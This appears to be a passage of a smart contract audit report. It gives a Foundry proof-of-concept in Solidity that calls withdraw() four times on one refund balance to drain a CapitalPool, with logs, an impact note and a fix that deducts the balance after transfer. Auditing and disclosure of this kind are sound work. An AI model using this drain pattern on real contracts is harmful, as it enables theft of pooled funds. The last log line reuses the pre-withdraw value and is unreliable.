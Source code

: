 ```solidity
        address offerAddr = GenerateAddress.generateOfferAddress(0);
        address stockAddr = GenerateAddress.generateStockAddress(0);
        preMarktes.closeOffer(stockAddr, offerAddr);
        uint userRefundAmount = tokenManager.userTokenBalanceMap(
            address(user),
            address(mockUSDCToken),
            TokenBalanceType.MakerRefund
        );
        console2.log("refund amount: ", userRefundAmount);
        uint balanceBeforeWithdraw = mockUSDCToken.balanceOf(user);
        console2.log("USDC balance before withdraw: ", balanceBeforeWithdraw);
        console2.log(
            "capitalPool balance before withdraw: ", mockUSDCToken.balanceOf(address(capitalPool))
        );
        for(uint i; i < 4; i++){
            tokenManager.withdraw(
            address(mockUSDCToken),
            TokenBalanceType.MakerRefund
        );
        }
        
        console2.log(
            "capitalPool balance at the end: ", mockUSDCToken.balanceOf(address(capitalPool))
        );   
        console2.log("USDC balance after withdraw: ", balanceBeforeWithdraw); 
    }

```

Logs:

```solidity
  refund amount:  12000000000000000
  USDC balance before withdraw:  99999999988000000000000000
  capitalPool balance before withdraw:  48000000000000000
  capitalPool balance at the end:  0
  USDC balance after withdraw:  99999999988000000000000000
```

## Impact

User can drain the CapitalPool contract by calling withdraw() multiple times.

## Tool Used

Manual review, Foundry

## Recommendation

Deduct the claimed amount from the `userTokenBalanceMap` after transferring tokens.

## Related Links
